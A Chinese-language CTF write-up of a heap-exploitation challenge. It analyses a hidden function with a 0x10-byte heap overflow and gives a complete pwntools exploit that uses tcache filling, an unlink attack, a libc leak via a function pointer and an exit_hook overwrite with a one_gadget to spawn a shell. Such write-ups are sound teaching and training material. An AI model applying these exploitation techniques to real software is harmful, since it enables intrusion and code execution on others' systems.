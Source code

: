 # how2heap  
### 程序逻辑  
程序可以进行的操作有  
* add:新建一个chunk并在chunk中写上内容  
* delete：删除一个已有的chunk，free后将指针指向NULL，不存在UAF漏洞
* show:显示指定chunk中的内容 
* edit：对指定的chunk的内容进行编辑，不过只能对第8和第9个chunk进行操作  
### 漏洞分析  
整个程序只有一个地方存在漏洞，改漏洞在菜单页时输入114514即可进入这个函数，下面为该函数的出题源码：  
```C
void sub_4040(){
    if(have_list[7]==0){
        return;
    }
    else if(one==0){
        one=1;
        int size = 0x10;
        a = malloc(size);
        return;
    }
    else if(one == 1){
        one = 2;
        read(0,a,0x20); 
        puts_ptr = &puts;
        return;
    }
    else
    exit(0);
}
```
可以看到该函数只有在第8个chunk给创建后才可以进行操作，而且只能够调用两次  
* 第一次：创建一个0x20大小的堆块(包括堆块头)  
* 第二次：向刚才创建的堆块中读入0x20字节的内容，并将堆上的函数指针指向puts函数的地址  
可见这个地方出现了0x10大小的堆溢出，0x10字节大小的溢出好可以覆盖下一个堆块的prev_size字段和size字段  
### 漏洞利用  
* 首先创建8个大小相同的堆块，然后调用sub_4040()函数，然后再创建第9个和前面大小相同的堆块  
* 然后将前7个chunk给释放掉，次数tcache已经给填满，然后利用edit在第8个chunk中伪造fake_chunk，并第二次调用sub_4040()将第9个chunk的pre_size和size进行修改，具体操作为：  
```python
p.sendline(str(114514))
payload = b'a' * 0x10 + p64(0xd0) + p64(0xc0)
p.sendline(payload)

payload = p64(0) + p64(0xd1) + p64(0x4040b8 - 0x18) + p64(0x4040b8 - 0x10)
edit(7,payload)
```  
* 此时将chunk 9删除后即可进行unlink，对任意内存进行读写。unlink的原理可以参考这一篇文章：https://blog.csdn.net/qq_41202237/article/details/108481889  
* 正常想法是通过unlink在got表处获取libc地址，可是这一题程序开启了Full RELRO，got表不可写，如果将指针指向got泄露完地址后就不能进行任何操作了，约等于这个unlink用完了，而且chunk的申请次数已经用完，无法再次进行unlink操作。  
* 想起前面第二次调用sub_4040()函数时有个函数指针指向了puts的地址，我们可以通过它来泄露地址，并且可以在edit时通过填充偏移另chunk 8的指针指向我们要修改的地方，进行修改  
* 这题将free_hook修改为ogg无法getshell,所以我们选择改exit_hook，exit_hook的相关利用可以参考这篇文章：https://www.cnblogs.com/pwnfeifei/p/15759130.html  
### 完整exp：
```python
from pwn import *
from LibcSearcher import *
from ctypes import *
from struct import pack

# p = process(["./ld-linux-x86-64.so.2", "./test"],
#             env={"LD_PRELOAD":"./libc.so.6"})

# p = process(["/mnt/d/desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./my"],
#             env={"LD_PRELOAD":"/mnt/d/desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6"})

# p = process('./pwn')
p = remote("", )
context(arch='arm64', os='linux', log_level='debug')
elf = ELF('./task')
libc = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')

execve = [0xe3afe, 0xe3b01, 0xe3b04]

def add(size,content):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'1')
    p.recvuntil('size:\n')
    p.sendline(str(size))
    p.recvuntil('content:\n')
    p.sendline(content)

def show(index):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'4')
    p.recvuntil('index:\n')
    p.sendline(str(index))

def delete(index):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'2')
    p.recvuntil('index:\n')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'3')
    p.recvuntil('index:\n')
    p.sendline(str(index))
    p.recvuntil('content:\n')
    p.send(content)

for i in range(7):
    add(0xb0,b'aaaaa')

add(0xb0,b'aaaaa')
p.sendline(str(114514))
add(0xb0,b'aaaaa')

for i in range(7):
    delete(str(i))

p.recvuntil("please input your choice:\n")

p.sendline(str(114514))
payload = b'a' * 0x10 + p64(0xd0) + p64(0xc0)
p.sendline(payload)

payload = p64(0) + p64(0xd1) + p64(0x4040b8 - 0x18) + p64(0x4040b8 - 0x10)
edit(7,payload)
delete(8)

payload = p64(0) * 3 + p64(0x404060)
edit(7,payload)
show(7)
puts_addr = u64(p.recv(6).ljust(8,b"\x00"))
print("puts_addr =",hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

ld_base = libc_base + 0x1f4000
_rtld_global = ld_base + ld.sym['_rtld_global']
_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10

for i in range(3):
    execve[i] += libc_base

payload = p64(0) * 11 + p64(_dl_rtld_lock_recursive)
edit(7,payload)
edit(7,p64(execve[0]))
p.sendline(b'6')

p.interactive()
```
